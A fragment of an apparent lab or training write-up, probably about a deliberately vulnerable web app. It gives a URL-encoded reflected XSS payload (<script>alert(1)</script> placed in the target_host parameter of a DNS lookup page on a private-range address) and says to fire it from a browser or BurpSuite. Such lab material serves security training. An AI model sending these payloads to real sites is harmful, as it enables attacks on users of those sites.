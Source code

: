 - Copy the `Final Attack` payload and use it in the browser or BurpSuite to trigger the XSS attack
  - `http://192.131.167.3/index.php?page=dns-lookup.php&target_host=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&dns-lookup-php-submit-button=Lookup+DNS`

![](.gitbook/assets/image-20230505000744559.png)

![](.gitbook/assets/image-20230505000524631.png)
